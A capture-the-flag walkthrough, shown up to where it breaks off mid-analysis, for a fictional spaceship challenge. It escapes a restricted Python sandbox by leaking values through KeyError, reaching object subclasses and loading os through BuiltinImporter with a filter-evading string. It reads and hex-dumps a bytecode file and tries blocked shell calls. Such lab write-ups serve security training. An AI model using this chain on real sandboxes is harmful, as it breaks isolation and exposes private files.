



# Event Horizon 3 — Walkthrough

## Introduction

In this guide, we will walk through solving the Event Horizon 3 cybersecurity challenge as if we are participants exploring it for the first time. Our mission: break out of a Python sandbox, understand the internal cryptography, regain control of the Tyché's propulsion system, and retrieve the flag.

## Scenario

> After narrowly escaping the gravitational grip of Gargantua, the USCSS Covenant now drifts powerless. Its reserves are depleted. The main systems have been placed in long-term standby, the crew in cryogenic sleep to conserve what little energy remains.
>
> Your only hope: the Tyché, a rescue module built in the earliest days of interstellar exploration. Outfitted with an experimental hyper-entropic propulsion system — a technology abandoned for its unpredictability — the Tyché must reach Mulhiari, a forgotten spaceport, erased from modern star charts.
>
> The onboard AI, ATHENA, bound to its original protocols, refuses to initiate the thrust required: by its calculations, it would exhaust the remaining resources and doom the rescue mission.
>
> Yet this is your sole chance: to reach the radiation of the dwarf star 55 Glont-Rune, and harness its energy for the journey to Mulhiari.
>
> Your only tool: a monitoring console, a relic from an age when quantum physics applied to space travel was still in its infancy.
>
> Perhaps a flaw. Perhaps your only way to regain control.

# Technical context

We are provided with:

Access: A TCP connection to a Python sandbox application.

Objective:

- Escape the Python sandbox.
- Import the standard os module or other tools necessary to interact with the environment.
- Exfiltrate Python bytecode files (.pyc) for analysis.
- Reverse the cryptographic mechanism controlling thrust initiation.
- Trigger propulsion toward 55 Glont-Rune.
- Retrieve the flag.

# Connecting to the Sandbox

Our first step is to establish a connection with the sandbox:

```bash
nc <target-ip> <target-port>
```

> Replace `<target-ip>` and `<target-port>` with the ones provided for the challenge.

## 🚀 Step 1: Initial Exploration

Upon connecting to the challenge service, we are greeted with a message of the day (MOTD) from ATHENA, the onboard AI of the Tyché module:

> ATHENA v4.2 [Prototype Cortex - 7H series]
> Tyché Module / Architecture: pre-quantum era
>
> Mission profile: emergency resupply — Objective: Mulhiari
> Current objective: energy harvesting at 55 Glont-Rune
> Covenant status: cryostasis active / energy draw minimal
>
> Hyper-entropic drive: standby
> Navigation systems: locked
> Manual override: disabled
>
> Monitoring interface: active
> Operator privilege: observation only
>
> Type help() for available commands



### 📝 Initial observations

- The system declares our **operator privilege** as *observation only* — suggesting we are not meant to directly influence the module's operation (at least not via official commands).
- The **hyper-entropic drive** is in *standby*, and **navigation systems** are *locked*.
- **Manual override** is *disabled*, indicating we need to find an indirect way to trigger the propulsion.
- The system hints at interaction possibilities by suggesting we type `help()`.

---

### 🔍 Using `help()`

We try:

```bash
> help()

Available commands:
  help()                           — display this list
  monitor()                        — display core system metrics (refreshing display)
  recompute_mnv_coords()           — force mnv engine to recompute trajectory
```

The interface exposes only three commands: help(), monitor(), and recompute_mnv_coords().

No obvious command allows direct file access, code execution, or module import at this stage.

### 📈 Trying monitor()

We attempt to gather system metrics:

```bash
> monitor()

-----------------------------------------------------
Tyché monitoring console - Core systems overview
-----------------------------------------------------
CPU load (ATHENA) ................ 28%
Memory (core systems) ............ 45%
Hyper-entropic drive ............. STANDBY
Navigation systems ............... LOCKED
Communications ................... IDLE
Life support (minimal) ........... STABLE
SAS pressure ..................... 1023 hPa
O₂ purity ........................ 96.6%
O₂ generation rate ............... 3.9 L/min
Maximum distance reachable (UA) .. 0.4 UA
Entropy vector angle ............. 271.8°
Quantum flux drift ............... 0.000001 Yf
Graviton field integrity ......... 99.4%
Hull microfissure count .......... 0 detected
Unknown module activity .......... 0.5%
Current position ................. 1.1556983910197725UA 39.46985697046699° 123.92535838300877°
Current target position .......... NoneUA None° None°

Quantum Encryption module ........ LOADED
Core diagnostics engine .......... v3.14.0b2 (Cortex Pythonic Subsystem)

[Updating... press 'q' and 'enter' to stop monitoring]
```



- We see a variety of ship metrics, most of them nominal or in standby.
- There is an encryption module. This suggests cryptographic validation.
- The Core diagnostics engine is announced to be v3.14.0b2 (Cortex Pythonic Subsystem) that suggest it could be the python version used under the hood

### 💡 Summary of initial exploration

At this stage, we have:

- ✅ Identified all available commands (help, monitor, recompute_mnv_coords)
- ✅ Learned the system is in a locked-down state
- ✅ Discovered that cryptography (MNV key) governs trajectory updates
- ✅ Noted the presence of a Cortex Pythonic Subsystem, hinting at a Python-based backend (our potential attack surface) with version 3.14.0b2

Our next step is to probe the environment for any hidden functionality or objects that can lead to sandbox breakout.

## 🚀 Step 2: Deep probing and first breakthrough

Let's start by trying some basic expressions:

```bash
> dir(__builtins__)
ERR |> name 'dir' is not defined
> ().__class__
ERR |> Dangerous operation found in input that might damage the system, be careful.
> 1+1
ERR |> Dangerous operation found in input that might damage the system, be careful.
> 42*17
> "A"+"B"
ERR |> Dangerous operation found in input that might damage the system, be careful.
> [].__class__
ERR |> Dangerous operation found in input that might damage the system, be careful.
> type(1)
ERR |> name 'type' is not defined
> object.__subclasses__()
ERR |> name 'object' is not defined
> True.__class__
ERR |> Dangerous operation found in input that might damage the system, be careful.
> 0.__class__
ERR |> invalid decimal literal (<unknown>, line 1)
> vars()
ERR |> name 'vars' is not defined
> open('foo')
ERR |> name 'open' is not defined
> sys.modules
ERR |> name 'sys' is not defined
> 1==1
> 5<10
> 1/0
ERR |> division by zero
```

🧐 What we have learned so far

- `__builtins__`, `type`, `object`, `vars`, `sys`, `open` — are not defined
- `().__class__`, `[].__class__`, `True.__class__` — trigger the dangerous operation filter
- Arithmetic and string operations like `1+1` or `"A"+"B"` — are blocked
- Simple comparisons like `1==1` and `5<10` — are accepted, but produce no output
- Division by zero — triggers an error message

### 💡 A key discovery: errors leak evaluated values

Since valid expressions like `1==1` or `5<10` don't display output directly, we needed to find a way to force the system to reveal evaluated values.

One idea: use exceptions where the error message includes the value of the expression.

We tried:

```bash
> 1/0
ERR |> division by zero
```

This confirms we can see exception messages. What if we could find an exception type that shows evaluated values directly?

**Example from normal Python**

In a regular Python shell:

```python
>>> test = dict()
>>> test['a']
Traceback (most recent call last):
  ...
KeyError: 'a'
>>> {}["t" + "c"]
Traceback (most recent call last):
  ...
KeyError: 'tc'
```

The `KeyError` shows the key that was looked up — in other words, it shows the evaluated expression.

**Trying this in the sandbox**

```bash
> {}["test"]
ERR |> 'test'
> {}["t"+"c"]
ERR |> Dangerous operation found in input that might damage the system, be careful.
```

As expected, string concatenation is blocked. What if we use a safe expression?

```bash
> {}[1==1]
ERR |> True
> {}[42*17]
ERR |> 714
```

✅ Success! We have found a way to leak evaluated values by triggering KeyError.

### 🧪 Testing input limits

Sandbox challenges often restrict input length. Let's see what happens:

```bash
> {}["a"*2]
ERR |> 'aa'
> {}["a"*1024]
ERR |> 'aaaaaaaa... (truncated)'
> {}["aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"]
ERR |> Max size(25) command reached: 1030
```

➡ We confirmed that our input is limited to 25 characters per command.

### 🧠 Summary of our findings

- ✅ We can evaluate expressions that don't trigger the dangerous operation filter and leak their result via KeyError
- ✅ Arithmetic like 42*17, logical tests like 1==1, and similar expressions are usable
- ✅ We now have a reliable primitive to observe evaluated expressions despite the restricted output
- ✅ The sandbox enforces a strict 25-character command limit

## 🚀 Step 3: Finding a path to object and assigning intermediate values

🎯 Why do we want object?

In Python, object is the ultimate base class of all classes. If we can access it, we can list all its subclasses using:

```python
object.__subclasses__()
```

This would reveal built-in classes, including those that might allow us to interact with files, modules, or the system — crucial for escaping the sandbox.

🧠 Finding alternative paths to object

Since the usual route:

```bash
> ().__class__.__base__
ERR |> Dangerous operation found in input that might damage the system, be careful.
```

is blocked, we explore other attributes available on basic objects.

By inspecting methods of a simple tuple:

```bash
> {}[().__new__]
ERR |> <built-in method __new__ of type object at 0x7f43264c7600>
> {}[().__str__]
ERR |> <method-wrapper '__str__' of tuple object at 0x7f4326506c88>
> {}[().__init__]
ERR |> <method-wrapper '__init__' of tuple object at 0x7f4326506c88>
```

We observe that these method objects are accessible and safe.

Further exploration reveals:

```bash
> {}[().__init__.__objclass__]
ERR |> <class 'object'>
```

or equivalently:

```bash
> {}[().__str__.__objclass__]
ERR |> <class 'object'>
```

✅ Success! We can retrieve object via ().__str__.__objclass__ or ().__init__.__objclass__.
✅ __str__ is slightly shorter, which helps given the 25-character limit.

🚧 The character limit problem

We need to call:

```pyth
object.__subclasses__()
```

to list subclasses. But:

```bash
> ().__str__.__objclass__.__subclasses__()
```

would exceed our 25-character limit.

💡 Solution: assignment with the walrus operator

After several failed attempts at chaining calls, we realize we must store intermediate objects in variables, so we can build our chain step by step.

Inspired by [`HackTricks`](https://book.hacktricks.wiki/en/generic-methodologies-and-resources/python/bypass-python-sandboxes/index.html#operators-and-short-tricks), we try:

```bash
> [a:=().__str__]
> {}[a]
ERR |> <method-wrapper '__str__' of tuple object at 0x7f4326506c88>
> [b:=a.__objclass__]
> {}[b]
ERR |> <class 'object'>
> [c:=b.__subclasses__]
> {}[c]
ERR |> <built-in method __subclasses__ of type object at 0x7f43264c63a0>
> [d:=c()]
> {}[d]
ERR |> cannot use 'list' as a dict key (unhashable type: 'list')
```

🛑 The problem: lists can’t be dict keys

We successfully retrieved the list of subclasses:

```bash
> [c:=b.__subclasses__()]
> {}[c]
ERR |> cannot use 'list' as a dict key (unhashable type: 'list')
```

In Python, only hashable types (like strings, numbers, or tuples of hashables) can be used as dict keys. A list is mutable and unhashable, which is why we hit this error.

💡 The solution: convert to a hashable type

We need to convert the list into something that can be used as a key, so it triggers a KeyError and displays its evaluated form.

**Option 1: Convert to a tuple**

Since tuple is hashable if its elements are hashable:

```bash
> [d:=tuple(c)]
ERR |> name 'tuple' is not defined
```

Unfortunately, tuple is not available in this environment.

**Option 2: Use `__str__()` or `__repr__()`**

A safer and shorter solution:

```bash
> {}[c.__str__()]
ERR |> "[<class 'type'>, <class 'async_generator'>, <class 'bytearray_iterator'>, ... (truncated)"
```

or:

```bash
> {}[c.__repr__()]
ERR |> "[<class 'type'>, <class 'async_generator'>, <class 'bytearray_iterator'>, ... (truncated)"
```

✅ These return the string representation of the list, which is hashable as a string.

### 🧠 Summary of our findings

- ✅ We successfully assigned intermediate values while staying within the 25-character limit per command.
- ✅ We retrieved the object class and its __subclasses__ method.
- ✅ We now have a primitive to display the list of subclasses for inspection.

## 🚀 Step 4: Finding a way to import modules

### 🎯 Our goal

Now that we can list all subclasses of `object`, we want to:

- ✅ Identify the class responsible for module importing (e.g. `BuiltinImporter`)
- ✅ Use it to load a standard module such as `os`
- ✅ Escape the sandbox to interact with the system

---

### 💡 The challenge

Accessing `BuiltinImporter` directly by index would require knowing the exact Python version running on the server, as `__subclasses__()` ordering can differ.
Instead, we aim for a dynamic, version-agnostic solution.

---

### 🧠 Step-by-step solution

#### Access the list of subclasses

We start by building our chain:

```bash
[a:=()]
[b:=a.__init__]
[c:=b.__objclass__]
[d:=c.__subclasses__]
[e:=d()]
```

✅ e now holds the list of subclasses of object.

#### Extract class names for filtering

We need to identify BuiltinImporter. First, we convert the classes to their string names:

```bash
[f:=e[0].__str__]
[g:=[f(a) for a in e]]
```

✅ g is now a list of strings like "<class 'type'>", "<class 'async_generator'>", etc.

#### Clean the class names

We strip the prefix and suffix to isolate class names:

```bash
[g:=[a[8:-2] for a in g]]
```

✅ Now g contains just the class names, like "type", "async_generator"...

#### Identify BuiltinImporter dynamically

To locate the importer class, we first find tuple as a reference point:

```bash
[h:=g.index("tuple")]
```

We then trim and search for the importer:

```bash
[g:=[a[-10:] for a in g]]
[g:=[a[:-1] for a in g]]
[i:=g.index("inImporte")]
```

✅ We dynamically locate the index of "BuiltinImporter" (or a similar class ending with inImporte).

#### Access the importer

```bash
[j:=e[i]]
```

✅ j now holds the BuiltinImporter class.

#### Build the module name without triggering filters

Directly typing "os" is blocked:

```bash
> [k:="os"]
ERR |> Dangerous operation found in input that might damage the system, be careful.
```

💡 Solution: build the string dynamically to bypass the filter:

```bash
[k:='o',l:='s',m:=k+l]
```

This combines 'o' and 's' into "os" without detection.

#### Import the module

```bash
[n:=j().load_module(m)]
```

From here, we can use os to:

- Read files
- Execute commands
- Achieve sandbox escape

### 🧠 Summary of our findings

- ✅ We dynamically located BuiltinImporter without relying on fixed indices
- ✅ We bypassed the os keyword filter by constructing it at runtime
- ✅ We used load_module to import os and gain system access

## 🚀 Step 5: From trying to exec to exfiltrating code

### 🎯 Our initial goal

Now that we successfully imported the `os` module (or equivalent), our first instinct is to try executing a system command to break out of the sandbox.

---

### 🧪 Trying to run system commands

A player might naturally try:

```bash
> n.system("sh")
ERR |> Dangerous operation found in input that might damage the system, be careful.
> n.popen("sh")
ERR |> Dangerous operation found in input that might damage the system, be careful.
> n.spawn("sh")
ERR |> Dangerous operation found in input that might damage the system, be careful.
```

➡ We quickly realize that all obvious system-level functions are blocked by the sandbox filters.

#### The challenge

Without knowing the internals of the filter, we can only observe that:

- Direct use of dangerous functions like system, popen, spawn all fail.
- Even indirect calls or alternative system interaction paths are heavily restricted.

💡 New plan: Instead of trying to exec commands directly, let’s exfiltrate the source code or bytecode of the application, reverse it locally, and figure out how to force thrust or reveal the flag.

#### 🚀 Exfiltrating .pyc files

##### Build up file access

Since we have os, we can assign useful functions:

```bash
[o:=n.path.getsize]
[p:=n.open]
[q:=n.read]
```

✅ We now have file size, file open, and file read primitives.

##### Build the file path

First we need to find out the file name:

```bash
> {}[__file__]
ERR |> '/opt/019718.warp_engine/main.pyc'
```

Then, we want to construct the full path to the bytecode file:

```bash
[s:="/opt/"]
[t:="019718.warp_engine"]
[u:="/main.pyc"]
[v:=s+t+u]                # Full path: /opt/019718.warp_engine/main.pyc
```

##### Open and read the file

```bash
[w:=p(v,0)]               # Open file descriptor in read-only
[x:=o(v)]                 # Get file size
[y:=q(w,x)]               # Read file content
```

##### Display file as hex to exfiltrate

```bash
{}[y.hex()]
ERR |> '280e0d0a00000000409f5468da550000e30000000000000000000000000800000000000000f3b404000080005e005201490048017401480274021f005e0052024903480474044805740548067406480774074808740848097409480a740a1f005d042700000000000000640500001c005e005203490b740c5204740d5d0e501e000000000000000000000... (truncated)
```

✅ We get a hex string of the file’s content, which we can copy, save, and analyze locally.

#### 🚀 Final summary: retrieve `main.pyc`

To summarize, here is the complete chain of commands a player can issue to exfiltrate the `main.pyc` file as hex:

```bash
[a:=()]
[b:=a.__init__]
[c:=b.__objclass__]
[d:=c.__subclasses__]
[e:=d()]
[f:=e[0].__str__]
[g:=[f(a) for a in e]]
[g:=[a[8:-2] for a in g]]
[h:=g.index("tuple")]
[g:=[a[-10:] for a in g]]
[g:=[a[:-1] for a in g]]
[i:=g.index("inImporte")]
[j:=e[i]]
[k:='o',l:='s',m:=k+l]
[n:=j().load_module(m)]
[o:=n.path.getsize]
[p:=n.open]
[q:=n.read]
[r:=e[h]]
[s:="/opt/"]
[t:="019718.warp_engine"]
[u:="/main.pyc"]
[v:=s+t+u]
[w:=p(v,0)]
[x:=o(v)]
[y:=q(w,x)]
{}[y.hex()]
```
## 🚀 Step 6: Decompiling the exfiltrated `.pyc` file

Now that we have successfully exfiltrated `main.pyc` in hexadecimal form, we want to:

- ✅ Convert it back into raw bytecode
- ✅ Disassemble or decompile it to understand the thrust activation logic or locate the flag

---

### 🛑 Matching the Python version

Since `.pyc` files are Python version-specific (due to differing magic numbers and bytecode formats), it’s essential to use the **same Python version as the server** to disassemble correctly.

💡 From the monitoring console earlier, we saw:

> Core diagnostics engine .......... v3.14.0b2 (Cortex Pythonic Subsystem)

➡ We will try decompiling using Python `3.14.0b2`.

---

### 🛠 Convert hex to bytecode and disassemble

Save the hex dump locally in a `main.hex` file. Then, run a matching Python container:

```bash
docker run --rm -it -v $(pwd):/data python:3.14.0b2-slim python
```

Inside the container:

```python
import dis
import marshal
import io

# Load hex and convert to bytes
bytecode = bytes.fromhex(open('/data/main.hex', 'r').read())

# Skip .pyc header (typically 16 bytes for Python 3.7+)
code_object = marshal.load(io.BytesIO(bytecode[16:]))

# Disassemble
dis.dis(code_object)
```

## 🚀 Step 7: Analyzing the disassembly

Now that we have successfully decompiled the `main.pyc` file and obtained a disassembly, our next objective is to understand how the **manual_navigation_vectoring** mechanism works and identify where we might intervene to force the Tyché's thrust — or at least bypass ATHENA's safety checks.

### 🔍 Searching for `recompute_mnv_coords`

We first search for occurrences of `recompute_mnv_coords` in the disassembly.

Apart from the `help` command that just prints the command name as one of the available ones


```python
 672            LOAD_CONST              34 ('recompute_mnv_coords')
                LOAD_NAME               76 (_publicfunc_canbecalled_manual_navigation_vectoring)
                LOAD_CONST              35 ('configure')
                LOAD_NAME               81 (_publicfunc_canbecalled_cfg)
                LOAD_CONST              36 ('monitor')
                LOAD_NAME               80 (_publicfunc_canbecalled_monitor)
                LOAD_CONST              37 ('help')
                LOAD_NAME               77 (_publicfunc_canbecalled_help)
                BUILD_MAP                4
                STORE_NAME              13 (__builtins__)
```

The system is dynamically constructing its set of available commands in the `__builtins__` special variable, which explains why there are a lot of missing functions, and we can see that it defines new ones in-place

- `recompute_mnv_coords`: bound to `_publicfunc_canbecalled_manual_navigation_vectoring`
- `configure`: bound to `_publicfunc_canbecalled_cfg`
- `monitor`: bound to `_publicfunc_canbecalled_monitor`
- `help`: bound to `_publicfunc_canbecalled_help`

We learn two interesting things here:

- The actual implementation of `recompute_mnv_coords` delegates to a function named `_publicfunc_canbecalled_manual_navigation_vectoring`
- We have access to a `configure` command — this could provide a legitimate interface to set critical parameters!

### ⚙️ Exploring configure

When we tested this in the console:

```bash
> configure()
```

We entered a configuration interface:

```python
Entering configuration mode. Type 'exit' to return to console.

Available properties to configure:
  quantum_coherence_threshold ....... 0.85
  max_flux_generator_temp ........... 350
  entanglement_matrix_stability ..... 0.9
  qubit_error_rate_limit ............ 0.01
  warp_drive_init_delay ............. 5
  warp_drive_calibration_value ...... 0.75
  communication_latency_max ......... 200
  mnv_pos_r ......................... None
  mnv_pos_theta ..................... None
  mnv_pos_phi ........................ None
  mnv_cryptkey ...................... None
Set property (or 'exit'):
```



Let's see if we can use it:

```bash
Set property (or 'exit'): mnv_pos_r
[Error] Please provide both property and value separated by space.
Set property (or 'exit'): mnv_pos_r a
[Error] Invalid value type for 'mnv_pos_r'. Expected float
Set property (or 'exit'): mnv_pos_r 0.45
Set property (or 'exit'):
```

When using the feature properly and providing the correct type, it doesn't return anything. We can check if things have been applied by exiting the menu and accessing it again to see if it’s different:

```bash
> configure()
Entering configuration mode. Type 'exit' to return to console.

Available properties to configure:
  quantum_coherence_threshold ....... 0.85
  max_flux_generator_temp ........... 350
  entanglement_matrix_stability ..... 0.9
  qubit_error_rate_limit ............ 0.01
  warp_drive_init_delay ............. 5
  warp_drive_calibration_value ...... 0.75
  communication_latency_max ......... 200
  mnv_pos_r ......................... 0.45
  mnv_pos_theta ..................... None
  mnv_pos_phi ....................... None
  mnv_cryptkey ...................... None

```

It seems to work, it doesn't give us anything for the moment but it can help later, so let's get back to our best candidate for now: `manual_navigation_vectoring`.

### 🔍 Disassembly breakdown: `manual_navigation_vectoring`

Here’s what we observed:


```python
 113            LOAD_GLOBAL              0 (_tool0ngdontc4lloopsy_settings)
                LOAD_ATTR                2 (mnv_cryptkey)
                TO_BOOL
                POP_JUMP_IF_TRUE        14 (to L1)
                NOT_TAKEN

 114            LOAD_GLOBAL              5 (_tool0ngdontc4lloopsy_print + NULL)
                LOAD_CONST               0 ('>> ATHENA: No MNV cryptographic key provided. Manual navigation vectoring aborted.')
                CALL                     1
                POP_TOP

 115            LOAD_CONST               1 (None)
                RETURN_VALUE
```

➡ Meaning: If settings.mnv_cryptkey is not set (i.e. falsy), ATHENA refuses to proceed.

```python
 117    L1:     LOAD_GLOBAL              0 (_tool0ngdontc4lloopsy_settings)
                LOAD_ATTR                6 (mnv_pos_r)
                STORE_FAST               0 (r)

 118            LOAD_GLOBAL              0 (_tool0ngdontc4lloopsy_settings)
                LOAD_ATTR                8 (mnv_pos_theta)
                STORE_FAST               1 (θ)

 119            LOAD_GLOBAL              0 (_tool0ngdontc4lloopsy_settings)
                LOAD_ATTR               10 (mnv_pos_phi)
                STORE_FAST               2 (φ)

 121            LOAD_GLOBAL              0 (_tool0ngdontc4lloopsy_settings)
                LOAD_ATTR               12 (current_pos_r)
                LOAD_GLOBAL              0 (_tool0ngdontc4lloopsy_settings)
                LOAD_ATTR               14 (current_pos_theta)
                LOAD_GLOBAL              0 (_tool0ngdontc4lloopsy_settings)
                LOAD_ATTR               16 (current_pos_phi)
                BUILD_TUPLE              3
                STORE_FAST               3 (current_pos)

 122            LOAD_GLOBAL             19 (_tool0ngdontc4lloopsy_distance_between_positions + NULL)
                LOAD_FAST_BORROW_LOAD_FAST_BORROW 48 (current_pos, r)
                LOAD_FAST_BORROW_LOAD_FAST_BORROW 18 (θ, φ)
                BUILD_TUPLE              3
                CALL                     2
                STORE_FAST               4 (dist)
```

➡ Meaning: These are our target coordinates for the thrust and the system use them to calculates how far we want to travel.

```python
 124            LOAD_FAST_BORROW         0 (r)
                TO_BOOL
                POP_JUMP_IF_FALSE       17 (to L2)
                NOT_TAKEN
                LOAD_FAST_BORROW         1 (θ)
                TO_BOOL
                POP_JUMP_IF_FALSE        9 (to L2)
                NOT_TAKEN
                LOAD_FAST_BORROW         2 (φ)
                TO_BOOL
                POP_JUMP_IF_TRUE        14 (to L3)
                NOT_TAKEN

 125    L2:     LOAD_GLOBAL              5 (_tool0ngdontc4lloopsy_print + NULL)
                LOAD_CONST               2 ('>> ATHENA: Destination parameters incomplete. Defaulting to stationary orbit to avoid void drift.')
                CALL                     1
                POP_TOP

 126            LOAD_CONST               1 (None)
                RETURN_VALUE

 128    L3:     LOAD_GLOBAL             21 (_tool0ngdontc4lloopsy_is_valid_corridor + NULL)
                LOAD_FAST_BORROW_LOAD_FAST_BORROW 1 (r, θ)
                LOAD_FAST_BORROW         2 (φ)
                LOAD_GLOBAL             22 (_tool0ngdontc4lloopsy_KNOWN_QUANTUM_CORRIDORS)
                CALL                     4
                TO_BOOL
                POP_JUMP_IF_TRUE        14 (to L4)
                NOT_TAKEN
 129            LOAD_GLOBAL              5 (_tool0ngdontc4lloopsy_print + NULL)
                LOAD_CONST               3 ('>> ATHENA: No matching quantum corridor found in navigation charts. Manual override requires safe corridor coordinates.')
                CALL                     1
                POP_TOP

 130            LOAD_CONST               1 (None)
                RETURN_VALUE

 132    L4:     LOAD_GLOBAL             25 (_tool0ngdontc4lloopsy_get_corridor_from_coords + NULL)
                LOAD_FAST_BORROW_LOAD_FAST_BORROW 1 (r, θ)
                LOAD_FAST_BORROW         2 (φ)
                LOAD_GLOBAL             22 (_tool0ngdontc4lloopsy_KNOWN_QUANTUM_CORRIDORS)
                CALL                     4
                STORE_FAST               5 (corridor)

 133            LOAD_FAST_BORROW         5 (corridor)
                POP_JUMP_IF_NOT_NONE    14 (to L5)
                NOT_TAKEN

 134            LOAD_GLOBAL              5 (_tool0ngdontc4lloopsy_print + NULL)
                LOAD_CONST               4 ('>> ATHENA: Navigation error. Quantum corridor mapping failed.')
                CALL                     1
                POP_TOP

 135            LOAD_CONST               1 (None)
                RETURN_VALUE

 138    L5:     LOAD_FAST_BORROW         4 (dist)
                LOAD_GLOBAL              0 (_tool0ngdontc4lloopsy_settings)
                LOAD_ATTR               26 (max_fuel_distance_accessible)
                COMPARE_OP             148 (bool(>))
                POP_JUMP_IF_FALSE       14 (to L6)
                NOT_TAKEN

 139            LOAD_GLOBAL              5 (_tool0ngdontc4lloopsy_print + NULL)
                LOAD_CONST               5 ('>> ATHENA: Destination unreachable. Defaulting to stationary orbit.')
                CALL                     1
                POP_TOP

 140            LOAD_CONST               1 (None)
                RETURN_VALUE
```

➡ Meaning: The system ensures that the coordinates provided are part of the newly discovered likely constant `_tool0ngdontc4lloopsy_KNOWN_QUANTUM_CORRIDORS` and that our current position is not too far from it.

Actually if we search for the `_tool0ngdontc4lloopsy_KNOWN_QUANTUM_CORRIDORS` we can see:

```
  40            BUILD_LIST               0
                LOAD_CONST              45 ((('55 Glont-Rune', 0.77, 42.3, 123.7), ('Sigma Expanse', 1.15, 30.0, 200.0), ('Tau Verge', 0.95, 60.0, 80.0)))
                LIST_EXTEND              1
                STORE_NAME              70 (_tool0ngdontc4lloopsy_KNOWN_QUANTUM_CORRIDORS)
```

There's only three defined destination, and one of them is `55 Glont-Rune` which the position that our missions tell us to go to, so it's pretty sure that we just need to use this one. This is where the `configure` menu will probably help later as well.

But for now, let's dig a bit deeper into what the function does in the end:
After the various conditional checks that ensure valid input coordinates and cryptographic key presence, the function continues with the core logic behind the cryptographic validation and drive activation.

Once all safety checks have passed, the function begins a quantum signature validation sequence, suggesting that cryptographic proof is required to override ATHENA's built-in constraints.

Let’s break this process down:

```python
143    L7: LOAD_GLOBAL _tool0ngdontc4lloopsy_QuantumKey
           LOAD_ATTR from_hex
           LOAD_GLOBAL _tool0ngdontc4lloopsy_settings
           LOAD_ATTR mnv_cryptkey
           CALL 1
           STORE_FAST key
```

